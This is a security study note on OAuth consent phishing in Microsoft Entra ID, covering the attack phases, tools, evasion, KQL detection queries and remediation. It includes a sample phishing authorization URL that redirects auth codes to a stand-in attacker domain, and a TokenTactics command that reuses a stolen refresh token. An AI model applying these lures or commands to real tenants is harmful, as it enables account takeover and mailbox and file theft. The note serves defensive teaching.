

# 11 - Illicit Consent Grants and OAuth Phishing in Azure

## Overview

Illicit Consent Grants (also known as OAuth phishing) are a sophisticated attack vector targeting Microsoft Entra ID (formerly Azure AD) environments. Unlike traditional credential phishing that aims to steal usernames and passwords, OAuth phishing tricks the victim into granting a malicious third-party application permissions to access their data or perform actions on their behalf.

Because these attacks leverage the legitimate OAuth 2.0 delegation protocols, they often bypass traditional perimeter defenses and even Multi-Factor Authentication (MFA). Once a user consents to the malicious application, the attacker receives OAuth access and refresh tokens, granting them persistent access to the victim's data via the Microsoft Graph API, completely independent of the user's password.

## Core Concepts & Architectural Background

To fully comprehend illicit consent grants, one must understand how Entra ID handles applications and identity delegation.

### App Registrations vs. Enterprise Applications
1. **App Registration**: When an application is created in an Entra ID tenant, an App Registration is formed. This represents the application globally. It defines the application's identity (`client_id`), supported authentication protocols, and the API permissions it requests.
2. **Enterprise Application (Service Principal)**: When an application is granted access to resources within a specific tenant, a Service Principal is created in that tenant. It acts as the local representation of the global App Registration and governs what the app can actually do within that specific directory.

### OAuth 2.0 Grants and Scopes
When an application wants to access a user's data (e.g., read emails), it requests specific OAuth scopes (e.g., `Mail.Read`, `User.ReadWrite.All`). Entra ID evaluates whether the user has the right to grant these scopes. If so, Entra ID presents a consent prompt to the user.

If the user clicks "Accept", Entra ID issues an Authorization Code, which the application then exchanges for an Access Token and a Refresh Token. The Access Token is typically short-lived (e.g., 1 hour), while the Refresh Token can be used to obtain new Access Tokens for up to 90 days or until revoked.

## ASCII Architecture Diagram: OAuth Consent Phishing Flow



## Attack Methodology & Execution

The attack typically follows these phases:

### Phase 1: Application Registration
The attacker creates a legitimate-looking Azure tenant (e.g., `contososecurity.onmicrosoft.com`) and registers a new application.
- The app is named deceptively, such as "O365 Security Update", "OneDrive Secure Share", or "HR Benefits Portal".
- A legitimate-looking logo is uploaded.
- The attacker configures the necessary API permissions (scopes) they wish to request. High-value scopes include:
  - `Mail.Read` / `Mail.ReadWrite`: Access to the victim's inbox.
  - `Contacts.Read`: Access to the victim's address book for lateral phishing.
  - `Files.Read.All`: Access to OneDrive and SharePoint files.
  - `offline_access`: Critical. This scope allows the app to receive a Refresh Token, enabling persistent access without requiring the user to re-authenticate.

### Phase 2: Crafting the Phishing Lure
The attacker crafts an OAuth authorization URL. This URL directs the victim to Microsoft's legitimate login portal (`login.microsoftonline.com`). The URL contains parameters detailing the requested application.

Example URL structure:
```http
https://login.microsoftonline.com/common/oauth2/v2.0/authorize
?client_id=12345678-abcd-1234-abcd-1234567890ab
&response_type=code
&redirect_uri=https://attacker-controlled-domain.com/callback
&scope=offline_access%20Mail.Read%20User.Read
&state=12345
&prompt=consent
```
Because the URL points to a legitimate Microsoft domain, traditional email security gateways and link scanners often classify it as safe.

### Phase 3: Exploitation and Token Harvesting
When the victim clicks the link, they authenticate to Entra ID (completing MFA if required). After authentication, they are presented with the consent prompt. If they click "Accept", the Authorization Code is sent to the attacker's `redirect_uri`.
The attacker's backend server automatically exchanges this code for the access and refresh tokens.

### Phase 4: Device Code Flow Abuse
A variant of this attack leverages the OAuth Device Code Flow, originally designed for input-constrained devices like Smart TVs.
1. The attacker initiates the flow and receives a user code (e.g., `ABCD-EFGH`).
2. The attacker sends a phishing email instructing the victim to go to `https://microsoft.com/devicelogin` and enter the code.
3. Once the victim completes the flow, the attacker's terminal automatically receives the authentication tokens. Tools like `TokenTactics` and `MFASweep` are frequently used for this.

## Exploitation Tools and Frameworks

Several tools have been developed to automate illicit consent grant attacks:

1. **365-Stealer**: A tool written in Python that automates the deployment of the malicious web application, token harvesting, and post-exploitation actions like downloading the user's inbox or searching OneDrive for sensitive files.
2. **TokenTactics**: A PowerShell module specifically designed to manipulate Entra ID tokens. It can be used to initiate Device Code flows, refresh tokens, and interface with the Microsoft Graph API.
3. **PoshC2 / Covenant / Mythic**: Advanced C2 frameworks often incorporate modules for interacting with the Graph API using stolen tokens, allowing operators to persist and pillage environments stealthily.

Example using TokenTactics to refresh a token:
```powershell
Import-Module .\TokenTactics.psd1
RefreshTo-GraphToken -domain "victimdomain.com" -refreshToken $stolenRefreshToken
```

## Evasion and Bypass Techniques

- **MFA Bypass**: Since the user completes MFA during their authentication *before* the consent prompt, the resulting tokens are considered strongly authenticated. The attacker does not need to bypass MFA directly; the protocol delegates the authenticated session.
- **Publisher Verification Bypass**: Microsoft introduced Publisher Verification to combat this. Unverified apps requesting high privileges trigger an "unverified" warning. Attackers bypass this by compromising legitimate, verified Microsoft Partner Network (MPN) accounts to create apps, or by targeting specific legacy scopes that don't trigger severe warnings.

## Mitigation and Defense Strategies

Defending against illicit consent grants requires a multi-layered approach focusing on configuration, monitoring, and user education.

### 1. Preventative Controls
- **Disable User Consent**: The most effective mitigation is to disable end-user consent entirely for applications. Require administrative consent for all new applications. This can be configured in the Azure Portal under `Enterprise Applications -> Consent and permissions`.
- **Implement Admin Consent Workflow**: When user consent is disabled, enable the Admin Consent Workflow. Users can request access to an app, and administrators can review the requested permissions and approve or deny them securely.
- **Restrict App Registrations**: By default, any user in an Entra ID tenant can register new applications. This should be disabled in `Azure Active Directory -> Users -> User settings -> App registrations`.

### 2. Detection Queries (KQL for Sentinel)
Monitoring the environment for anomalous consent grants is critical. Use KQL in Azure Sentinel to detect suspicious activities:

**Detecting High-Risk Scope Consent:**
```kusto
AuditLogs
| where OperationName == "Consent to application"
| extend AppDisplayName = tostring(TargetResources[0].displayName)
| extend GrantedScopes = tostring(parse_json(tostring(TargetResources[0].modifiedProperties[0].newValue)))
| where GrantedScopes has_any ("Mail.Read", "Mail.ReadWrite", "Files.Read.All", "RoleManagement.ReadWrite.Directory")
| project TimeGenerated, InitiatedBy.user.userPrincipalName, AppDisplayName, GrantedScopes
```

**Detecting Applications Created by Non-Admins:**
```kusto
AuditLogs
| where OperationName == "Add application"
| extend InitiatingUser = tostring(InitiatedBy.user.userPrincipalName)
| join kind=leftanti (
    IdentityInfo
    | where AssignedRoles has "Application Administrator" or AssignedRoles has "Global Administrator"
) on $left.InitiatingUser == $right.AccountUPN
| project TimeGenerated, InitiatingUser, OperationName
```

### 3. Incident Response and Remediation
If an illicit consent grant is discovered:
1. **Revoke the Application**: Navigate to `Enterprise Applications`, locate the malicious app, and delete it. This invalidates all tokens associated with the app.
2. **Revoke User Sessions**: Force a sign-out and revoke all refresh tokens for the compromised user via the Azure Portal or PowerShell (`Revoke-AzureADUserAllRefreshToken`).
3. **Investigate Graph API Activity**: Use the `AuditLogs` and `OfficeActivity` logs to trace exactly what the malicious application accessed using the stolen tokens. Look for downloaded emails, modified forwarding rules, or accessed SharePoint documents.

## Chaining Opportunities

- **[[13 - Bypassing Conditional Access Policies CAPs]]**: Once tokens are acquired via OAuth phishing, attackers may need to bypass CAPs (like location or device compliance restrictions) to use those tokens effectively.
- **[[14 - Lateral Movement from On-Prem AD to Azure]]**: If the phished user is a hybrid administrator, the attacker might pivot to attacking the on-premises AD Connect infrastructure.
- **[[15 - MicroBurst Toolkit and Azure Pentesting Workflows]]**: Stolen tokens can be fed into MicroBurst to automate the enumeration and exploitation of Azure resource manager (ARM) assets.

## Related Notes

- [[02 - JWT Exploitation and Forgery]]
- [[05 - Bypassing API Rate Limiting and Throttling]]
- [[08 - Server-Side Request Forgery SSRF in Cloud Environments]]
- [[12 - Azure Custom Role Definition Abuse]]
